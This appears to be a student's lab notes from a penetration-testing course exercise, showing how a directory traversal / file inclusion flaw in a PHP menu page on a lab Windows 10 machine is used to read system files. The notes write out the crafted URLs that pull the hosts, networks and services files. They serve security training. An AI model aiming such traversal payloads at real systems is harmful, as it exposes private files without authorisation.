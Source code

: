 9.4.3.2

# 9.4.3.2
##  9.4.3.2.1. Exploit the directory traversal vulnerability to read arbitrary files on your Windows 10 lab machine.

Browse to the menu page
http://192.168.214.10/menu.php?file=current_menu.php
![9f659bbe6d0d635f17b793cdf4a4c849.png](../../_resources/0006b13af2464846b06d625748938ca0.png)

Test for LFI by replacing 'current_menu.php' with 'old.php'
http://192.168.214.10/menu.php?file=old.php
![d09b49361301f468f29252588e78f454.png](../../_resources/84d2d1a831b84ad19acf74a80e3d96cc.png)

Instead of old.php, try putting typical Windows path\file name
http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\hosts
![b908221d4972ab1da865601ce6a03080.png](../../_resources/36607429c52c455ca6e714b0294b63b2.png)

http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\networks
![20937d5439ddf9c12d23a9bea1e77f61.png](../../_resources/ff783bac756b47d68aa9c0fc5d641e2f.png)

http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\services
![a6a58ab885882c593a01643ee0a572a8.png](../../_resources/971b2dcdf8b54449826164dbc90ea15c.png)




